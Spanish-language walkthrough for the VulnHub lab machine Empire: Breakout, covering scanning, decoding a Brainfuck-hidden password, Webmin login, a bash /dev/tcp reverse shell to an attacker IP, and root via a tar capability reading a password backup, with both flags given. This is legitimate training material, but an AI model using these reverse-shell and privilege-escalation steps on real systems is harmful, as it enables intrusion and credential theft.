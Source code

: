 machine: [Empire: Breakout ~ VulnHub](https://www.vulnhub.com/entry/empire-breakout,751/)
Download (Mirror)**: [https://download.vulnhub.com/empire/02-Breakout.zip](https://download.vulnhub.com/empire/02-Breakout.zip)

![[Vulnhub - EMPIRE Breakout - Machine.png]]
Herramientas:
	- arp-scan
	- ping
	- nmap
	- Visor de codigo del navegador
	- https://www.dcode.fr/brainfuck-language
	- enum4linux
	- nc -lvnp 1234
	- bash -i >/dev/tcp/192.168.1.144/1234 0>&1
	- con getcap -r / 2>dev/null
	- ./tar -cf {nombre fichero} /var/backups/.old_pass.bak
Puertos:
	#Puerto80 
	#puerto10000
	#puerto20000


reconocimiento de la red:

![[Vulnhub - EMPIRE Breakout - Reconocimeinto de la red.png]]
Ping a la maquina para ver si hay conectividad y el TTL:
![[Vulnhub - EMPIRE Breakout - Ping y ver TTL.png]]

Conectividad y TTL 64--> maquina LINUX
Nmap:
sudo nmap -p- --open -sS -Pn -sC -sV 192.168.1.136

![[Vulnhub - EMPIRE Breakout - Nmap.png]]

Encontramos los  puertos:
80 con un apache 2.4.51
139 Samba 4.6.2
445 Samba 4.6.2
10000 http webmin miniserv 1.891
20000 http webmin MiniServ 1.830

Accedemos al puerto 80:

![[Vulnhub - EMPIRE Breakout - Web apache 2 por defecto.png]]
web por defecto de Apache 2 en Debian

Vamos a revisar el código fuente:
![[Vulnhub - EMPIRE Breakout - Codigo extraño en el codigo fuente.png]]
nos encontramos con esto:

<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
-->

por lo que entendemos con el mensaje que :
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
es un mensaje encriptado

Decodeamos web para decodear este mensaje (https://www.dcode.fr/brainfuck-language):

![[Vulnhub - EMPIRE Breakout - Decode Message.png]]
y obtenemos:
.2uqPEfj3D<P'a-3

Accedemos al puerto 10000:
![[Vulnhub - EMPIRE Breakout - Acceso al puerto 10000.png]]
volvemos a acceder ahora con SSL (según mensaje)
y vemos un panel de Login:
![[Vulnhub - EMPIRE Breakout - Panel de Login.png]]

Revisamos el puerto 20000:
![[Vulnhub - EMPIRE Breakout - Acceso al puerto 20000.png]]
Usamos la herramienta Enum4 Linux:
comando:
enum4linux -a 192.168.1.136 y obtengo este resultado:
![[Vulnhub - EMPIRE Breakout - Enumeracion de usuarios con enun4linux.png]]
Ha obtenido el usuario cyber
vamos a intentar entrar con el usuario cyber y al contraseña obtenida anteriormente en el panel de login:

cyber:.2uqPEfj3D<P'a-3
y accedemos al panel:

![[Vulnhub - EMPIRE Breakout - Panel de mailbox.png]]

hay una opcion en el panel que es para ejecutar comandos:
![[Vulnhub - EMPIRE Breakout - Ejecutamos comandos desde el panel.png]]

de aquí obtenemos la primera flag del usuario:
User flag: 3mp!r3{You_Manage_To_Break_To_My_Secure_Access}

ahora podemos lanzar una reverse bash desde aquí y recibirla en nuestro terminal:
nos ponemos a la escucha:
comando 
nc -lvnp 1234
y en la victima ejecutamos:
bash -i >/dev/tcp/192.168.1.144/1234 0>&1

Y obtenemos acceso:
![[Vulnhub - EMPIRE Breakout - Ejecutar reverse shell.png]]

Obtenemos la reverse Shell:
![[Vulnhub - EMPIRE Breakout - Obtencion de reverse Shell.png]]
volvemos a ver la flag del usuario:
![[Vulnhub - EMPIRE Breakout - User Flag from the machine.png]]


nuestro usuario es cyber
![[Vulnhub - EMPIRE Breakout - User cyber.png]]

hacemos un pequeño tratamiento de la TTY con el comando:
script /dev/null -c bash
Vulnhub - EMPIRE Breakout - 
tenemos que escalar privilegios:
sudo -l no funciona
![[Vulnhub - EMPIRE Breakout - Escalado sudo -l.png]]

Vemos las capabilities:
con getcap -r / 2>dev/null
![[Vulnhub - EMPIRE Breakout - Capabilitis del usuario.png]]

Y encontramos  que tenemos acceso a tar

![[Vulnhub - EMPIRE Breakout - Fichero backup old oculto.png]]

Encontramos el ficheor oculto en /var/backups con el nombre .old_pass.bak
usamos tar para leerlo

![[Vulnhub - EMPIRE Breakout - Encontramos fichero backups old.png]]

con el comando ./tar -cf {nombre fichero} /var/backups/.old_pass.bak
extraemos
listamos lo extraido:
![[Vulnhub - EMPIRE Breakout - Fichero backup descomprimido.png]]

y obtenemos lo siguiente:
0000600000000000000000000000002114134001114014303 0ustar  rootrootTs&4&YurgtRX(=~h  

Accedemos con la contraseña de root que hemos obtenido:
sudo root:
root:Ts&4&YurgtRX(=~h  

![[Vulnhub - EMPIRE Breakout - Acceso root.png]]
Root flag:
![[Vulnhub - EMPIRE Breakout - Root flag.png]]
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}





